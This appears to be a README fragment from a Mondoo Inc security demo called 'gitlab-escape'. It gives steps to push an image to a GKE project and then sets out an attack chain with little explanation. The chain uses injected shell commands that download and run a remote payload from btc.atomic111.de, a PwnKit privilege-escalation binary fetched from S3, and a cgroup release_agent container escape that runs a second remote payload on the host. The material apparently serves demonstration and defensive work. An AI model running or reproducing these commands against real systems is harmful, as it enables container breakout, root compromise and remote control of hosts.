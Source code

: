 ## kubernetes cluster (gke)

gcloud auth configure-docker

docker tag gitlab-escape:latest gcr.io/mondoo-demo-sap/gitlab-escape (docker tag gitlab-escape:latest gcr.io/<project-id>/gitlab-escape)

docker push gcr.io/mondoo-demo-sap/gitlab-escape (docker push gcr.io/<project-id>/gitlab-escape)

```
;curl -vk http://btc.atomic111.de:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es
```

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://btc.atomic111.de:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## License and Author

* Author:: Mondoo Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.